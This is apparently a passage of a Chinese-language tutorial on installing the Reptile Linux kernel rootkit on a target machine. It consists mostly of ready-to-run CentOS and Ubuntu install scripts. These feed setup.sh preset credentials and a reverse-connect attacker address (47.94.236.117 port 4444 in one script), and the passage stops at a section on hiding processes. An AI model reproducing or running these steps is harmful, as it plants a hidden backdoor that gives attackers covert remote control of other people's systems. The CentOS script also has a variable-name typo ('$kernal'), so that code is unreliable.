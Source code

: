 这里推荐自动化的搭建，不然可能很容易出bug：

`centos`

```sh
$kernel=`uname -r`
# centos
  yum -y install perl vim gcc make g++ unzip
  # 由于Cenots内核管理不便，所以使用下载对应版本的kernel-devel到本地
  yum -y localinstall kernel-devel-"$kernal".rpm
  cd Reptile-2.0/ && chmod +x ./setup.sh
  ./setup.sh install <<EOF
reptile
hax0r
s3cr3t
reptile
666
y
攻击机ip
攻击机端口
1
EOF
```

`ubuntu`

```sh
$kernel=`uname -r`
# ubuntu
  apt-get install vim gcc make g++ unzip -y
  apt-get -y install linux-headers-$(uname -r)
  cd Reptile-2.0/ && chmod +x ./setup.sh
  ./setup.sh install <<EOF
reptile
hax0r
s3cr3t
reptile
666
y
47.94.236.117
4444
1
EOF
```

在靶机上安装`reptile` ，直接运行上面的安装脚本：

```bash
bash ./install.sh
```

![截图](26f1e4fbd09dc2fa14f83ce34da7c23f.png)

#### 1、进程的隐藏
